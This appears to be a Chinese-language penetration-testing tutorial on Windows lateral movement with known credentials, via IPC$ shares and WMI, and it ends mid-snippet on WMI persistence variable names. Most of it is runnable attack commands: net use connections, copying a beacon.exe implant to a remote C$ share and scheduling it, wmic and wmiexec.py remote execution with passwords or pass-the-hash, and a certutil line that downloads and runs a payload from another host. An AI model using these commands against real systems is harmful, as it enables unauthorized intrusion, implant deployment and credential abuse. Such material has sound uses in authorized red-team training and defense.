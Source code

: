 ## 5.1、账号密码链接

当我们获取到机器的账号密码的时候，可以尝试用以下几种方式进行连接并执行命令。

### 1.IPC 横向

```
IPC (Internet Process Connection) 共享命名管道的资源，是为了实现进程间通信而开放的命名管道。IPC 可以通过验证用户名和密码获得相应的权限，使用 139、445 端口。

1.1 利用条件
1、目标机开启了139和445端口；
2、目标主机管理员开启了ipc$默认共享；
3、知道目标机的账户密码。

1.2 命令
建立IPC连接命令：
net use \\191.168.52.136\ipc$ "password" /user:"Administrator"
断开连接：
net use \\x.x.x.x\ipc$ /del
查看连接是否建立：
net use

建立 IPC 连接后可以使用计划任务执行木马上线。
拷贝木马：
copy beacon.exe \\191.168.52.136\c$
创建计划任务(at<2012、schtasks>=2012)：
at \\191.168.52.136 15:47 c:\beacon.exe
```

### 2.WMI 横向

```
WMI 全称 “windows 管理规范”，从 win2003 开始一直存在。它原本的作用是方便管理员对 windows 主机进行管理。因此在内网渗透中，我们可以使用 WMI 进行横向移动。

2.1 利用条件
1、WMI服务开启，端口135，默认开启。
2、防火墙允许135、445等端口通信。
3、知道目标机的账户密码。

2.2 wmic
wmic /node:191.168.52.136 /user:xxxx /password:xxxxx  process call create "cmd.exe /c ipconfig>d:\result.txt"
无需上传第三方软件，利用系统内置程序,单命令执行，执行后无结果回显

2.3 cscript
cscript //nologo wmiexec.vbs /shell 191.168.52.136  
需上传wmiexec.vbs然后进入该服务器内进行执行

2.4 wmiexec
1.执行命令：
python wmiexec.py ./:@192.168.52.136 "cmd.exe /c certutil -urlcache -split -f   http://192.168.52.137:8090/wmi.exe C:\wmi.exe"
2.用hash的方式：
python wmiexec.py -hashes :36ec9d73422e1bf53b84fdb16a8e4198 ./qaxnb@192.168.52.136 "whoami"
第三方软件 (交互式&单执行)，容易被杀

2.5
Invoke-WmiMethod  -class win32_process -name create -argumentlist 'notepad'  -ComputerName  172.16.127.184 -Credential 'jumbolab.com\win7user' 

2.6
$filterName  = 'BotFilter82'
$consumerName  = 'BotConsumer23'
```